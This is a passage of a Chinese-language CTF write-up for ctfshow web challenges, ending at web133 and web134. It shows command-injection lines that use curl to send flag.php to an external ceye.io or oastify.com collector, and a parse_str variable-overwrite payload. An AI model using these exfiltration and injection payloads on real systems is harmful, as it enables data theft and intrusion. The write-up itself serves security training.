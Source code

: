 ```bash
`$F`; curl http://xxx.ceye.io/`cat flag.php | base64`
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121657324.png)

解码失败, 有长度限制

用 grep 查找 ctfshow 关键字

```bash
`$F`; curl http://xxx.ceye.io/`cat flag.php | grep ctfshow | base64`
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121659716.png)

得到 flag

wp 里面是通过 `curl -F` + brup collaborator 的形式

`-F` 为以带文件的形式发送 post 请求, 可以认为没有长度限制

```bash
`$F`; curl -X POST -F xx=@flag.php http://xxx.oastify.com
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121702311.png)

## web134

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121709075.png)

变量覆盖

当时想着是通过 `$_POST=$_COOKIE`, 然后 Cookie 处写变量

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121727643.png)

结果发现执行失败

查了手册才知道 `=` 后面的已经算是字符串了, 例如

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121728947.png)

换个思路, 根据上面的例子可知, `parse_str()` 是接受数组传参的

```
?_POST['key1']=36d&_POST['key2']=36d
```

测试失败, 想了想可能是因为 `parse_str()` 已经默认将值和索引解析成字符串了, 不需要再加引号

```
?_POST[key1]=36d&_POST[key2]=36d
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121729145.png)

## web135
